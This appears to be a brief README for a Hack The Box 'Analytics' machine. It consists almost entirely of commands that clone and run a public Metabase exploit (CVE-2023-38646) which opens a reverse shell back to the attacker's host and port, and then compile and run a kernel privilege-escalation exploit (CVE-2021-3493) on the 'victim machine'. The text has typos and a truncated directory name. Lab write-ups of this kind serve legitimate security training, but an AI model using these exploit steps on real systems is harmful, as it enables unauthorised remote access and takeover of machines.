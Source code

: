 # Analytics-htb-Rce
#first clone the repository
git clone https://github.com/securezeron/CVE-2023-38646
cd CVE-2023-38646
pip install -r requirements.txt
python3 CVE-2023-38646-Reverse-Shell.py -h
#the before run reverse shell start netact listeiner and  go back to run script as follows
python3 CVE-2023-38646-Reverse-Shell.py --rhost {Target Ip address} --lhost {your ip-adress} --lport {port to listen rervse shell} 

# Privileges escalation
git clone https://github.com/briskets/CVE-2021-3493.git
cd CVE-2021-349
Usage
    gcc exploit.c -o exploit
#The uplaod  the file the  run on  victim machine 
    ./exploit
# More  infomation visit my channel via  below link
https://youtu.be/DN-U6Jy2h0M

## MASSCO99 HACKER
